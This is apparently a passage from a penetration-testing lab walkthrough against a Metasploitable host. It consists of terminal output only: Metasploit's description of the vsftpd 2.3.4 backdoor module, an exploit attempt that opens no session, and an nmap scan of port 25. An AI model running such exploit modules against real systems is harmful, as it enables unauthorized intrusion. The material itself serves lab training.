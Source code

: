 ```
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  10.0.22.55       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.0.22.55:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.22.55:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

```
root@attackdefense:~# nmap -sV -p 25 10.0.22.55
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 15:45 IST
Nmap scan report for demo.ine.local (10.0.22.55)
Host is up (0.0029s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
Service Info: Host:  metasploitable.localdomain

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```
